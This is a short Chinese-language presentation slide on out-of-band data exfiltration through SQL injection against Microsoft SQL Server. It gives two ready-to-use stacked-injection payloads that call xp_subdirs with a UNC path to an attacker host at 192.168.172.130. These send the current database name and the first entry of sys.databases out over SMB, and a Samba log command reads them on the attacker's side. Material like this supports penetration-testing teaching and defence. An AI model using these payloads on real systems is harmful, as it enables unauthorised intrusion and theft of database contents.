

MSSql注入数据外带
MSSql注入数据外带
当注入点仅存在盲注时，使用sqlmap出数据太慢，使用数据外带加速出数据。
SMB数据外带
存在堆叠注入数据外带
利用xp_subdirs, xp_dirtree,xp_fileexist使用unc路径判断文件发起请求带出数据
注入过程：
Payload：id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs "//'%2B'192.168.172.130\\'%2b@a%2b'.txt"')—
Payload： id=1';declare @a varchar(1024);set @a=(select top 1 name from sys.databases);exec('master..xp_subdirs "//'%2B'192.168.172.130\\'%2b@a%2b'.txt"')—
Linux执行命令查看记录     tail -f /var/log/samba/log.smbd | grep "failed"